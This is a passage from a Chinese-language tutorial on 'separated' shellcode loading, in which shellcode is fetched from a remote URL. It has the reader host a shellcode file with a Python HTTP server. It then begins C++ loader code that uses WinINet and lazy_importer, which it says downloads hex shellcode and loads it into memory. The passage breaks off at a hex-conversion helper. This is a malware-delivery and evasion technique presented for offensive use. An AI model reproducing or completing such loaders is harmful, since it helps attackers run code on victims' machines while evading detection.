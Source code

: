 



# 二、通过远程url加载

## http服务目录放置shellcode文件

另一种shellcode分离加载的方法是通过远程URL加载。首先，我们需要在HTTP服务目录放置shellcode文件，然后启用HTTP服务：`python -m http.server 8000`

![image-20230523230821603](shellcode分离加载/image-20230523230821603.png)

<img src="shellcode分离加载/image-20230523230937729.png" alt="image-20230523230937729" style="zoom:67%;" />		



## 代码实现

基于上述代码的基础上，添加了`GetUrl_HexContent`函数，其作用是从指定url下载内容并将其存储在给定的缓冲区中，随后加载至内存

```cpp
#include <windows.h>
#include <wininet.h>
#pragma comment(lib, "wininet.lib")
#include <iostream>
#include <fstream>
#include <sstream>
#include <vector>
#include "lazy_importer.hpp"

using namespace std;


// 将十六进制中的单个字符转换为相应的整数值
unsigned char hexCharToByte(char character) {
    if (character >= '0' && character <= '9') {
        return character - '0';
    }
```